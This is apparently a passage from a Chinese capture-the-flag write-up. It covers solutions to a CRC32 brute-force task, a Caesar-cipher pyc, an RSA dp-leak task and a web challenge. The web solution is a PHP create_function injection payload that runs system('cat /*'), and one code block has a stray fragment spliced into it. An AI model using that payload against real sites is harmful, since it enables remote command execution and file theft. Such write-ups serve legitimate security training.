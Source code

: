 ```
# 执行爆破
result = brute_force_crc32(target_crc32)

if result:
    print(f"Found matching string: {result}")
    print(f"CRC32: {hex(zlib.crc32(result.encode()))}")
else:
    print("No matching string found.")r_decrypt(ciphertext, shift))
```

![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnRb5NQugOicOacCgia7jsgbKzh9DYsiaul1fkTvxHFBryEtlOORj5qdzYtFAfsKcAw5s1OBiaLSU2tSsg/640?wx_fmt=png&from=appmsg)

③pyc反编译

因为是3.8版本的, 可以使用任意反编译工具对这个pyc进行反编译

```
some_encrypt = lambda text, shift: ''.join([chr(((ord(char) - ord('A' if 'A' <= char <= 'Z' else 'a') + shift) % 26) + ord('A' if 'A' <= char <= 'Z' else 'a')) if char.isalpha() else char for char in text])

if __name__ == '__main__':
  plaintext = "Hello, Wordl!"
  shift = 4
  print("Encrypted:", some_encrypt(plaintext, shift))
```

这个算法是凯撒密码, 偏移量是4

所以flag是ayyctf{easy\_2\_recognize}

**WEB**

**01 babycode**

赛题描述：代码执行

解题思路：

```
?a=create_function&v=};system('cat /*');/*
```

**CRYPTO**

**01 babyrsa**

赛题描述：你能从泄露的数据中获得什么吗？

解题思路：

dp泄露的一个简单的爆破脚本

```
import gmpy2 as gp

e  = 65537
n  = 81341453801740456556711750595393167570498597994503221907699829282377977102604445084623116531103443209109475312614340864570279365580136143868105557106203760471966244404904186019427097707682913918133188187694525599480573859216404219888072000234473884057741952626452708508336716518206503482903090272609806850687
dp = 2267875620239785100872840243404829420353764780117016215398169925234158712375753022894332259383627631211170491663842059628563952588889226976261124820132019
c  = 68743536063933676791554582156643217036584340763549551341651123137408676663330867031805776293599664745388644814744743397678920124639027237165565280318792523853633900033745253101330130605070263258464033420967992546641879680350423536048243772521159824941551114901904186100713621940034127376767770063434480692464

for x in range(1, e):
 if(e*dp%x==1):
  p=(e*dp-1)//x+1
```